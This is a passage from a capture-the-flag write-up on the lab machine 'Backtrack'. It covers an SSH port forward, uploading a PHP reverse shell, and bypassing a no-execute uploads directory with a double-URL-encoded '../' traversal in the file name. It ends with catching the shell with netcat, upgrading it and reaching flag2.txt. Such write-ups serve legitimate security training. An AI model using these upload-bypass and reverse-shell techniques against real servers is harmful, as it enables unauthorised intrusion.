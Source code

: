 So we decided to port forward that to our host and look at it.

```console
ssh wilbur@10.10.158.79 -L 5555:127.0.0.1:80
```

>You can use Gobuster or simply begin by attempting to locate the /login.php endpoint.http://localhost:5555/login.php
{: .prompt-info}
>**email** : orville@backtrack.thm **password** : ****************** 
{: .prompt-info}

after logging let's upload a reverse-shell.php

![Desktop View](/reverse-shell-from-webpage.webp){: width="1200" height="450" }


We are unable to upload files with `.php` or executable extensions. However, we can attempt to use the **double extension** technique, such as `reverse-shell.png.php`. While the files are successfully **uploaded** to the server, they do **not execute**. Therefore, let's review the Apache configuration to investigate further. 

```console
wilbur@Backtrack:~$ cat /etc/apache2/apache2.conf
...
<Directory /var/www/html/uploads>
        php_flag engine off
        AddType application/octet-stream php php3 php4 php5 phtml phps phar phpt
</Directory>
...
```
>We have identified the issue: the php_flag engine off directive in the configuration.
{: .prompt-tip}

To execute our web shell, we need to bypass the `/uploads` directory. After testing several directory traversal payloads in the file name during the upload process, we successfully bypassed it using the encoded sequence `%25%32%65%25%32%65%25%32%66`, which is the URL-encoded version of `../`.

![Desktop View](/reverse-shell-double-extension.webp){: width="1200" height="450" }

```console
$ nc -lnvp 9001
listening on [any] 9001 ...
....
*$ python3 -c "import pty;pty.spawn('/bin/bash')"
orville@Backtrack:/$ export TERM=xterm
export TERM=xterm
orville@Backtrack:/$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                     $stty raw -echo; fg
[1]  + continued  nc -lnvp 9001

orville@Backtrack:/$ cd /home/orville && ls
flag2.txt  web_snapshot.zip
```
